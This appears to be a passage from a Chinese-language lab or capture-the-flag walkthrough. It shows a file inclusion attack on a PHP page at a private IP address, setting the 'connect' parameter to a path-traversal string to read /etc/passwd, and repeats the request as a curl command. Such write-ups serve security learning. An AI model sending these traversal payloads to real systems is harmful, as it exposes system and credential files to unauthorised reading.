 ![image-20240225103023424](imgs/image-20240225103023424.png)



#### 文件包含

将url中的connect参数赋值为`../../../../etc/passwd`，成功读取到了passwd

`http://10.10.10.16/index1.php?help=true&connect=../../../../etc/passwd`

![image-20240225103402400](imgs/image-20240225103402400.png)

使用`curl`命令方便查看

```bash
 curl 'http://10.10.10.16/index1.php?help=true&connect=../../../../etc/passwd'
```
